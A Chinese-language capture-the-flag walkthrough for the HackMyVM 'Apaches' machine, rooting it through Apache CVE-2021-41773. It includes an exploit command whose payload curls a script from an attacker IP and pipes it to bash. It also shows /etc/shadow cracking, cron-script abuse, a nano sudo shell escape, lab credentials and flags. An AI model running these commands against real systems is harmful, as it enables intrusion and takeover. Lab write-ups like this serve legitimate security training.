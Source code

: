 # Apaches

2025.03.26 https://hackmyvm.eu/machines/machine.php?vm=Apaches

[video](https://www.bilibili.com/video/BV1QroeYwEha/?spm_id_from=333.1387.upload.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

22 和 80

发现 Apache/2.4.49 有 RCE 漏洞 CVE-2021-41773 ：

```
searchsploit -m 50383
./50383.sh targets.txt /bin/bash 'curl http://192.168.5.3/shell/5.3/8888.sh|bash'
```

拿到 shell，发现/etc/shadow 可读，john 进行破解，发现用户凭据 squanto:iamtheone 登陆

crontab 中有一个注释是一个暗示，pspy 发现 sacagawea 用户 /bin/bash /home/sacagawea/Scripts/backup.sh 定时执行，当前用户同属 Lipan 组，有修改权限：

反弹后，拿到 user flag：

```
Flag: FlagsNeverQuitNeitherShouldYou
```

得到用户凭据：

```
~/Development/admin$ cat 2-check.php

 $users = [
    "geronimo" => "12u7D9@4IA9uBO4pX9#6jZ3456",
    "pocahontas" => "y2U1@8Ie&OHwd^Ww3uAl",
    "squanto" => "4Rl3^K8WDG@sG24Hq@ih",
    "sacagawea" => "cU21X8&uGswgYsL!raXC"
  ];
```

使用这个凭据可切换到 "pocahontas" => "y2U1@8Ie&OHwd^Ww3uAl"

sudo -l 显示 (geronimo) /bin/nano 还是需要切换到最后一个用户：

```
sudo -u geronimo nano
^R^X
reset; sh 1>&0 2>&0
```

执行后，sudo 有 ALL 权限，直接 sudo su 拿到 root flag：

```
Flag: OneSingleVulnerabilityAllAnAttackerNeeds
```
